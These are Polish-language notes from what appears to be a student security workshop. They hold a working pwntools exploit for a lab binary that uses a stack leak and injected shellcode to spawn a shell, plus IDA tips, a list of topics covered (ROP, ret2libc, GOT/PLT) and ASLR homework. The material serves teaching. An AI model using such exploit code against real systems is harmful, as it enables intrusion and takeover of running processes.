 
Na warsztatach było trochę powtórki asm/re (można przejrzeć wykłady z http://re.disconnect3d.pl/), no i skończyliśmy eksploita z lab1, dla wyłączonego ASLR ([jak wyłączyć ASLR](http://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)):

```python
from pwn import *
 
context(arch='i386',os='linux')
shellcode = asm(shellcraft.sh())
# zamiast asm('nop') moze byc rownie dobrze 'a'
# (chcemy zeby dlugosc shellcode byla rowna 6*12)
shellcode += asm('nop') * (6*12 - len(shellcode))

buf_addr = 0xffffd63c # bez aslr mozna zaharkodowac adres...
 
p = process('./easy')
print p.proc.pid
pause()
 
print p.recvuntil('Choose: ')
 
def leak(index):
    p.sendline('3')
    p.recvuntil('view:')
    p.sendline(str(index))
    p.recvuntil('Product ID: ')
 
    leak_id = p.recvuntil(', Product Code: ')[:-16]
    leak_code = p.recvuntil('There are ').replace('There are ','')
    leak = leak_code + p32(int(leak_id) & 0xffffffff)
 
    print "[+]Leak: "+ leak.encode('hex')
    return leak
 
leak(-3)
 
def add_product(prod_id, prod_code):
    p.sendline('1') # add record
    print p.recvuntil('Enter product ID: ')
    p.sendline(prod_id)
    print p.recvuntil('Enter product code: ')
    p.sendline(prod_code)
 
for i in range(6):
    # struktura produktu
    #      8 B     |     4 B
    # product_code | product_id
    s = shellcode[i*12:i*12+12]
    product_code = s[:8]
    product_id = str(u32(s[8:]))
    add_product(product_id, product_code)

# Zadziala bez ASLR.
# Z ASLR adres bufora musimy pobrac poprzez funkcje `leak`
# (gdyz jest on na stosie, a leak wykorzystuje 'View record' z programu)
# (co pozwala nam na czytanie niektorych wartosci ze stosu, a adres bufora
# jest rowniez na stosie)
new_eip = str(buf_addr)
add_product(new_eip, 'abcdqwer')

p.sendline('4') # Quit program
# breakpoint na instrukcje `ret` w main -> b *0x08049235

p.interactive()
```

Trochę debugowaliśmy powyższy skrypt, np. żeby wstrzelić odpowiednio shellcode'a.

W tym celu podpinaliśmy się przez gdb zdalnie do procesu (`sudo gdb <binarka>; attach <pid>; <ewentualne breakpointy>; continue`).

### Powtórka skrótów Ida Pro (częściowo też Hopper):
- Typy wyświetlane czasem przez Idę: BYTE (1B), WORD (2B), DWORD (4B), QWORD (8B)
- Klawisz 'n' na symbolu - refaktoryzacja jego nazwy
- Klawisz 'x' na symbolu - szukanie xrefów
- Klawisz 'y' na symbolu - zmiana jego typu (dla zdekompilowanego kodu)
- Klawisz spacji będąc w kodzie asm - przełączanie się między widokiem grafu, a po prostu instrukcji (czasami graf nie działa)

### Omówione rzeczy:
- ROP - tu można poczytać przykład https://0xabe.io/ctf/exploit/2016/03/07/Boston-Key-Party-pwn-Simple-Calc.html
- ret2libc
- GOT, PLT
- poznawanie wersji libc na podstawie adresów

### Kolejne warsztaty - za 2 tygodnie - za tydzień jest CodeEurope.

### Zadanie domowe
- przerobić eksploita, tak, żeby działał z włączonym ASLR (hint: trzeba zrobić memory leak'a; adres bufora znajduje się gdzieś na stosie, bo został przekazany do funkcji main).
